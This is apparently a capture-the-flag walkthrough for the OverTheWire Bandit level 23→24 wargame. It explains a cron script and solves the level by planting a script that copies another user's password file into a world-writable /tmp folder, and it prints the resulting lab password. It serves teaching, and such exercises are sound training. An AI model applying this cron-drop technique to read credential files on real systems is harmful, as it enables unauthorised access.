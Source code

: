 ```yaml
---
title: 'OverTheWire: Bandit Level 23 → Level 24'
description: 'https://overthewire.org/wargames/bandit/bandit24.html'
date: '2021-03-17 10:22:25 +0530'
categories: [Security, OverTheWire]
tags: [overthewire, ctf, security, linux]
img_path: /assets/
---
```


![OverTheWire Banner](images/overthewire-banner.png)

### Level Goal

> A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.  
> **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  
> **NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Commands you may need to solve this level

> cron, crontab, crontab(5) (use "man 5 crontab" to access this)

```
> whatis cron  
cron (8)         - daemon to execute scheduled commands (Vixie Cron)

> whatis crontab  
crontab (1)      - maintain crontab files for individual users (Vixie Cron)  
crontab (5)      - tables for driving cron
```

### Helpful Reading Material

[Linux/Mac Tutorial: Cron Jobs - How to Schedule Commands with crontab - YouTube](https://www.youtube.com/watch?v=QZJ1drMQz1A)

[shellmagic.xyz - This website is for sale! - shellmagic Resources and Information.](https://shellmagic.xyz/)

[Classic SysAdmin: Understanding Linux File Permissions - Linux Foundation](https://www.linux.com/training-tutorials/understanding-linux-file-permissions/)

[Timeout Command in Linux \| Linuxize](https://linuxize.com/post/timeout-command-in-linux/)

### Solution

Since we know there is an task that is being executed by cron lets have an look at all the cron jobs on the system

```
bandit23@bandit:~$ ls /etc/cron.d/  
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
```

Since we require the password for bandit24 the task that we are looking for should be `cronjob_bandit24`

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

When we look at the contents of the file we see that there is an script that is executed on the system every minute. We can also see that bandit24 is the owner of the file.

**Note:** The @reboot is an special keyword that is used by cron to run a job when the system is rebooted.

Lets have a look at the contents of the script and try to understand what is it trying to perform

```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Lets break down the script line by line:

*   The output of `whoami` command is getting saved in a variable called `myname` (Since this script is being executed by bandit24 the output of `whoami` will be `bandit24` which is saved in the `myname` variable)
*   A folder called `bandit24` exist in the `/var/spool` directory. The working directory is changed to this folder.
*   Then a statement saying all the scripts that are present in the folder `/var/spool/bandit24` is being deleted is printed.
*   For loop is used to iterating through all the files in the directory (.\* : All files in current working directory)
*   A check is made to see if the current selected file is called `.` or `..` if not then the rest of the code is executed. ("." means current directory (bandit24) and ".." means the parent directory (spool))
*   The name of the current selected file is printed and then the information about the owner of the file is saved in the variable "owner".
*   An check is made to check if the owner of the current selected file is "bandit23". If it is then the current selected file is executed and sent the KILL signal after waiting for 60 seconds and then deleted (-s flag in timeout command is used to specify the signal to send to the command "9" is an alias for the KILL command)

So from this we understand that whatever file is saved in the folder "bandit24" gets executed and if the file was created by "bandit23" then after 60 seconds of execution the file is deleted. If we want the password for "bandit24" we need to write a script that will be executed from the bandit24 folder. The script that we write should get the password and save in a location that we can access (`/tmp` directory)

Lets make a folder in the `/tmp` directory and use that as the base location for all the operations here on out.

```
bandit23@bandit:~$ mkdir /tmp/rand

bandit23@bandit:~$ cd /tmp/rand
```

Create a file called `script.sh` using vim or any other editor on the system and write the following code in the file.

```
#!/bin/bash  
cat /etc/bandit_pass/bandit24 > /tmp/rand/password
```

Since the output of the script is going to be saved in a file called `password` lets create a file with that name as well.

```
touch password
```

The cron job is executed by user bandit24 so when the job executes our script it is also going to have the permission of bandit24 which is not the same permission as we have because of this when the script tries to write output to the file called "password" it will fail so lets change the permission of all the files in the current folder so that any user can access them.

```
chmod 777 -R /tmp/rand
```

Finally lets copy the script in the `bandit24` folder from where the cron job should execute our file.

```
cp script.sh /var/spool/bandit24
```

![Ls Command|420](images/bandit-23-24/ls-command.png)

After waiting for about an minute we should see that some data has been written into the password file. Lets view the content of this file.

```
bandit23@bandit:/tmp/rand$ cat password   
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

We have found the password !!

Logout of the current session and login into the next level as bandit24

```
> ssh bandit24@bandit.labs.overthewire.org -p 2220                                                                                                         

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```